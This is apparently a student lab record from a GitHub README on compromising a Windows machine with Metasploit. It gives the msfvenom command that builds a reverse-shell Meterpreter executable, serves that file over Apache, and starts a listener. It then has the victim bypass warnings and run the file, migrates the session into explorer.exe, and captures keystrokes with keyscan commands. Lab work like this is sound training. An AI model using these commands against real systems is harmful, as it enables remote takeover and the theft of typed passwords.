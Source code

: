 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![240485931-d9b9e488-6580-4969-a3d2-5061443c0ed1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/738403cb-ddf8-4e5f-af5b-50f6531673bc)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![240482360-12b58fda-5cec-4e47-872b-b838ef920d46](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/57c1fa09-ae80-401b-8422-41213b252aee)




copy the fun.exe into the apache /var/www/html folder
![240482762-37d7e507-5d47-4ddb-ba93-586f6d73a51b](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/379bf937-8d1d-47ca-9ca3-9dc95c1c0db5)


Start apache server
sudo systemctl apache2 start

![240482920-0d0224f9-d80c-42b9-a3ab-09b48da66a27](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/2a8aefe2-4668-467c-a3af-57a346f5d9da)



Check the status of apache2
![240483068-77516604-9c4f-4317-a188-c41de4625542](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/e9323521-d25e-4418-a86b-66c9d872a4dd)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![240483481-938f78c9-0e8a-42ef-847c-a7cee7393beb](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/08007393-8ae5-4095-a288-688b21b6654c)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![240483850-4cf82361-ac00-46ab-92a2-3f09592d98d5](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/a5afa68b-3991-4c94-a8d2-2f4c22bb656d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![240484009-fee0700e-bafd-4e76-af72-f5ac23a5d6ba](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/6803b629-2f0b-46b6-a1b1-37333b5fa25e)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![240486096-b2d36ca1-64a2-4863-a648-4ef4a8727dd9](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/c379f00d-1be8-4a25-8342-25ff9208cb8d)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![240485311-85fb473c-59fe-4042-b163-552fddc735d1](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/b245228d-be3b-418f-8a4d-f0aeb3277dd1)



keyscan_dump	Shows the keystrokes captured so far
![240485244-785ef849-9095-4065-b38a-54b544a0c440](https://github.com/Yogeshvar005/Compromising-windows-using-Metasploit/assets/113497367/bd229a9d-ec46-4590-a561-d81cca631f57)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
